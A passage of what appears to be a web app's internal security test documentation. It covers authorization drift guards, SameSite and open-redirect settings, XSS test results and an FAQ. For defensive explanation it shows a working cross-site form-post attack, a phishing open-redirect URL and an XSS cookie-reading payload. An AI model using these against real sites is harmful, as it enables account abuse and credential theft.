| SG-4 | a policy predicate's whole body is `true` (parsed with Prism) | `always_true_policy_predicates.yml` | 71 |
| SG-7 | a view prints a non-literal value raw: `x.html_safe`, `raw(x)`, `<%== x %>` (each `.erb` compiled as Rails does, then parsed with Prism) | `raw_output_of_dynamic_values.yml` | 181 (was 213; 0 open, every entry has a verified reason) |

With the example above, SG-1 fails like this:

```text
NEW and not reviewed (check each one, then add it to
features/security/allowlists/verify_authorized_exempt_actions.yml with the reason it is safe):
  FundsController#quick_totals
```

The developer then either adds `authorize` (the usual answer), or adds the line with a reason that
says what protects it instead. The guard also fails on **stale** entries, so the list can't fill
up with things that no longer exist.



This was checked with a mutation test before it was committed: adding
`skip_after_action :verify_authorized, only: :show` to `FundsController` and
`skip_before_action :authenticate_user!, only: :index` to `CapitalCallsController` were both
caught. A predicate with real logic in it (`user && true`) was correctly **not** flagged.

> Entries marked "Baseline 2026-11-05 … not individually re-reviewed" were present when the guard
> was added. Their reason is honest, not a sign-off. Some worth a look:
> `ApiTokenPolicy#create?`, `KpiChartSettingPolicy#create?`,
> `InvestmentCriteriaTemplatePolicy#create?`, `TaskTemplatePolicy#generate?`.

---

## 4. Settings the app silently depends on

Two framework settings protect real endpoints, but they come from Rails defaults, not from any
code you'd see in a review. A framework upgrade or a one-line config change would remove them
silently.

### SG-5 — SameSite=Lax session cookie (protects 5 CSRF-exempt endpoints)

These signed-in endpoints skip the CSRF token (they're called from JS):
`KanbanCardsController#move_kanban_card`, `#update_sequence`,
`KanbanColumnsController#delete_column`, `#update`, `#update_sequence`,
`GridViewPreferencesController#update_column_sequence`, `DealActivitiesController#perform_activity_action`.

**The attack they'd be open to without SameSite.** An attacker's web page contains:

```html
<form action="https://app.caphive.com/kanban_columns/42/delete_column" method="post">
  <input type="hidden" name="_method" value="delete">
</form>
<script>document.forms[0].submit()</script>
```

A signed-in GP user who visits that page would delete a column of their own deal board, because
the browser attaches their session cookie to the request.

**Why it's safe today.** The session cookie is `SameSite=Lax`
(`cookies_same_site_protection = :lax`, from `load_defaults`). Browsers don't send a Lax cookie on
a cross-site POST, so the request arrives signed-out. SG-5 fails if that ever stops being `lax` or
`strict`, for example if someone adds `same_site: :none` to make an embed work.

### SG-6 — open-redirect protection

`documents#download` does `redirect_to params[:back_to]`, and `documents#save_and_upload` does
`redirect_to params[:redirect_to]`.

**The attack.** A phishing email links to
`https://app.caphive.com/documents/download?back_to=https://caphive-login.example/` (via a form
post). The real CapHive domain in the link earns trust. The user lands on a fake login page and
types their password.

**Why it's safe today.** Rails 8.1's `action_on_open_redirect` is `:raise`, so redirecting to
another host raises `ActionController::Redirecting::UnsafeRedirectError` instead. The older
`raise_on_open_redirects` setting reads `false` here, so the protection depends entirely on the
newer setting. SG-6 sends exactly that request and checks it is refused. SG-6H checks a same-site
`back_to=/documents` still works.

---

## How to run the scenarios

```bash
# from the worktree / repo root; Redis must be up on 6379
pcuc -n 4 features/security/stored_and_reflected_xss.feature \
          features/security/mcp_tenant_isolation.feature \
          features/security/security_surface_drift_guard.feature
```

Results of the run on 2026-11-05:

| Feature | Result | Why |
|---|---|---|
| `stored_and_reflected_xss.feature` | 8 failed, 2 passed | All 8 failures are the live bugs. The page contained the injected `<script>` / ``, or a Cancel link with `href="javascript:alert(document.cookie)"`. XSS-7H (same-site `return_to`) passes, and in XSS-3/4/5 the "bold text is still bold" step passed before the XSS check failed. |
| `mcp_tenant_isolation.feature` | 19 passed | No tool returned another firm's or another LP's rows, even when given the other firm's fund id. |
| `security_surface_drift_guard.feature` | 7 passed | The surface matches the reviewed allowlists, and both pinned settings hold. |

After a view fix lands, its XSS scenario should turn green **without** editing the test.

Results after the fixes, on 2026-11-06:

| Run | Result | Notes |
|---|---|---|
| The three security features | All passed | XSS-1…10 turned green with no test edits. SG-7 lists 181 reviewed raw outputs, 0 open. |
| Whole suite (`pcuc -n 4 features`, 6,424 scenarios) | 6,418 passed, 6 failed | All 6 failures ran on the same worker: 3 in `investor_access`, 1 in `investor_notice_criteria` and 2 KPI date/fiscal-year scenarios. |
| Those 6, rerun serially (`bin/cuc`) | 6 passed | So they were parallel-run flakes, not regressions. |

## FAQ

**Q: Why were the tests written before the fixes?**
To prove the bugs were real: XSS-1…7 failed against the old code with the injected `<script>` /
`onerror` on the page, then turned green after the fix with no test edits. They now guard against
the bugs coming back.

**Q: The session cookie is httponly, so isn't XSS low risk?**
No. httponly stops the script *reading* the cookie, but the script runs inside the victim's page,
where the browser sends the cookie on every same-origin request and the page provides the CSRF
token in `<meta name="csrf-token">`. The script can do anything the victim can do. See
[What an attacker's script can do once it runs](#what-an-attackers-script-can-do-once-it-runs).

**Q: Won't enforcing the CSP fix all of this?**
It would block inline `<script>` and `onerror=` handlers, so it's the right backstop, and the
rollout is already planned. But today's `script-src` allows `https://unpkg.com` and
`https://cdn.jsdelivr.net`, which serve any npm package, so an attacker could still load a script
from there. And the CSP doesn't stop HTML injection itself (fake forms, misleading links). Fix
the sinks, then enforce the CSP.

**Q: Why do rich-text fields have to keep bold text?**
Distribution notes, fund details and notification bodies are edited in Trix. Escaping would show
users raw `<div><strong>` tags and break every existing note. The fix is `sanitize`, which keeps
safe formatting and drops scripts and event handlers. The "bold text is still bold" step makes
sure the fix is done that way.

**Q: A drift guard failed on my PR. What do I do?**
Read the failure: it names the entry and the YAML file. Usually the right fix is in your code: add
`authorize`, keep `authenticate_user!`, keep the CSRF check. If the exemption is genuinely
needed (a webhook verified by its own token, for example), add the line to the YAML **with a
reason that says what protects it instead**. Empty reasons fail the guard.

**Q: Why are the MCP tools called as Ruby classes instead of over HTTP?**
`McpController#create` authenticates the token, checks entity governance, then calls exactly
`Tool.call(server_context: { user:, entity: }, …)`. Token and governance checks have their own
features (`features/api/oauth_clients.feature`, `tenant_isolation_batch2.feature` B4-5). This
feature is about which rows a tool returns once it runs, so it calls that step directly.
